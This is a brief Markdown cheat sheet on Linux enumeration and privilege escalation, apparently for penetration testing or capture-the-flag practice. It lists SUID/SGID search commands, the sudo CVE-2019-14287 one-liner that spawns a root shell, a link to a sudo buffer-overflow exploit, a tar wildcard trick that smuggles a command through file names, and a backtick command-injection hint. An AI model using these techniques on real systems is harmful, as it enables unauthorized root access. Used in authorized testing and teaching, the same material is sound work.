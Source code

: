 # Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```find / -perm -u=s -type f 2>/dev/null``` | Find SUID files |
| ```find / -type f -perm -04000 -ls 2>/dev/null``` | Alternate find for SUID files |
| ```find / -perm -g=s -type f 2>/dev/null``` | Find SGID files |
| ```lsof -i``` | List Open Files for intrnet and network connections | 

| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |
| Tar wildcard * | Checkpoint syntax ```touch /home/user/--checkpoint=1``` and ```touch /home/user/--checkpoint-action=exec=sh\ shell.sh``` | 
| LFI /api/?something=`whoami` | Try using the ``` ` ``` backtick symbol in addition to quotes ' |
| Shell escapes | Be sure that your terminal window has enough text for pagination, or else the shell escape may not work |
